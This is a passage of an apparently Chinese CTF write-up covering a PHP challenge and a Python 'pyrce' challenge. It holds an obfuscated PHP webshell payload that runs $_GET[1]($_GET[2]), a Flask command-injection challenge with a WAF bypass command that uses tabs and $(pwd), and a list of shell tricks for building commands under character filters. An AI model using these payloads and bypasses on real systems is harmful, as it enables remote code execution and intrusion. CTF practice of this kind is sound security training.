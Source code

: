 ```php
<?php
$__ = ([].β);
$_=$__[3];
$_++;
$_1=++$_;
$_++;$_++;$_++;$_++;//h
$_=$_1.++$_.$__[2];//chr 重点
$_=_.$_(71).$_(69).$_(84);
$$_[1]($$_[2]);
//payload =$__ = ([].β);$_=$__[3];$_++;$_1=++$_;$_++;$_++;$_++;$_++;$_=$_1.++$_.$__[2];$_=_.$_(71).$_(69).$_(84);$$_[1]($$_[2]);
//$_GET[1]($_GET[2]);
?>
```

最后贴个[链接](https://ctf-show.feishu.cn/docx/ToiJd70SboRn52xhn3WcJsfjnah)

### pyrce

核心代码

```py
def waf(rce):
    black_list = '01233456789un/|{}*!;@#\n`~\'\"><=+-_ '
    for black in black_list:
        if black in rce:
            return False
    return True

@app.route('/', methods=['GET'])
def index():
    if request.args.get("Ňśś"):
        nss = request.args.get("Ňśś")
        if waf(nss):
            os.popen(nss)
        else:
            return "waf"
    return "/source"
```

- 空格用tab绕过
- `/`通过`pwd`得到

这道题不回显 那么一种是反弹shell，一种是覆盖目标文件，采取覆盖目标文件的方法，然后访问 /resource路由，读取app.py的内容即flag的内容
`cp%09$(cd%09..&&cd%09..&&cd%09..&&cd%09..&&cd%09..&&cd%09..&&cd%09..&&cd%09..&&echo%09$(pwd)flag)%09app.py`

### 一些小技巧

```bash
>a 在Linux会创建一个叫a的文件
*>v 会将ls列出的第一个文件名当作命令 其余当作参数执行
*v>0 等价于 rev v >0 反转
sh 0 将0文件的内容当作命令执行
ls -th 按照文件的创建时间（后创建先列出）ls -t就可以 这里加上h是为了按照 sl ht- f\>排列
linux下换行执行命令：
ech\
o\
 111
```
